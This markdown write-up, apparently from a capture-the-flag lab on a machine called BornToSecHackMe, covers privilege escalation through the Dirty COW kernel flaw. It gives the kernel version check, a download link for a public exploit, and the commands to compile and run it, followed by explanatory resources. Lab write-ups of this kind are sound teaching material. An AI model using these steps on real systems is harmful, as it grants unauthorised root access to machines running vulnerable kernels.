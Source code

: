 ## Dirty COW (CVE-2016-5195)

After gaining access to vulnirable machine as chown in writeup1, and as part of machine discovery i checked the kernel version with "uname -a".
```
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
2016 and below versions are vulnerable to dirty cow vulnerability.
#### + download the exploit:
```
https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
```

#### + compile the exploit with :
```
gcc -pthread dirty.c -o dirty -lcrypt
```

#### + run the newly create binary by either doing:
```
"./dirty" or "./dirty my-new-password"
```
### Ressources:
* [dirty cow](https://dirtycow.ninja/)
* [liveoverflow explaination](https://youtu.be/kEsshExn7aE)
* [medium article explaining dirty cow](https://0xcd4.medium.com/the-dirty-cow-race-condition-attack-7ba27f78f865)
* [understanding race condition, and dirty cow vulnerability](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html)
